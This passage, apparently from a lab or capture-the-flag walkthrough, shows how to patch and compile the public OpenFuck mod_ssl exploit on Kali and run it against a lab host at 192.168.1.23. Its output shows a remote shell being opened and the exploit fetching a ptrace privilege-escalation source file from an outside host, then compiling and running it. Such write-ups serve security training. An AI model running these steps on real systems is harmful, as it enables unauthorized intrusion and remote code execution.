 We can also do it from our attacking machine after downloading it locally.

## Installing the libssl-dev lib
With the newer version of `libssl-dev` it is not compatible.
```console
root@kali:~# apt-get install libssl1.0-dev
```

## Update declaration of variables.
On line 961: Change
```console
unsigned char *p, *end;
```
Add `const` and Update to
```console
const unsigned char *p, *end;
```
Save the file and compile it
```console
root@kali:~# gcc -o exploit 764.c -lcrypto
```

Now run the exploit
```console
root@kali:~./exploit 0x6b 192.168.1.23 443 -c 40

*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8050
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304- 
--17:06:05--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--17:06:06--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   1.25 MB/s

17:06:09 (957.28 KB/s) - `ptrace-kmod.c' saved [3921/3921]

/usr/bin/ld: cannot open output file p: Permission denied
collect2: ld returned 1 exit status
```
